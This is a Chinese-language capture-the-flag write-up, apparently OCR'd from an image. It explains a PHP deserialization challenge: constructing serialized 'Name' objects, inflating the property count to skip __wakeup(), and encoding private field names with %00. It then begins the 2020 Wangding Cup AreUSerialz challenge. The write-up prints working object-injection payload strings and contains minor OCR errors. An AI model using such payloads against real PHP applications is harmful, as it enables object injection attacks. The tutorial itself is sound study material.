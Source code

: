 分析一下，我们要让**$username='admin'；$password=100;** 在执行__destruct()函数时就可以获得我们的flag。

我们先来序列化一下：

```php
<?php
 class Name{
     private $username='admin';
     private $password=100;
}

$select= new Name;
echo serialize($select);
// O:4:"Name":2:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";i:100;}
```

#### 跳过__wakeup()

我们注意到，在执行反序列化的时候会首先执行__wakeup()魔术方法，这个方法会把我们的username重新赋值，所以第一步要绕过这个。

> 在反序列化字符串时，属性个数的值大于实际属性个数时，会跳过__wakeup0函数的执行

所以我们构造一下，在Name后面的2改为大于2就好了

```
O:4:"Name":3:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";i:100;}
```

#### 调用private

**private声明的字段为私有字段，只在所声明的类中可见**，在该类的子类和该类的对象实例中均不此私有字段的字段名在序类名和字段名前面都会加上0的前缀。长度也包括缀的长度。

再次改造一下

```
O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}
```

ok，我们传参进去就好了





### [网鼎杯 2020 青龙组]AreUSerialz

代码审计后可以很容易的知道是：GET方式传入序列化的str字符串

且上传必须为字符串，并且字符串中每一个字符的**ASCII范围在32到125之间**

符合要求的str上传后，会调用__destruct析构方法进行反序列化的操作：

```php
function __destruct() {
    if($this->op === "2")
        $this->op = "1";
    $this->content = "";
    $this->process();
}
```
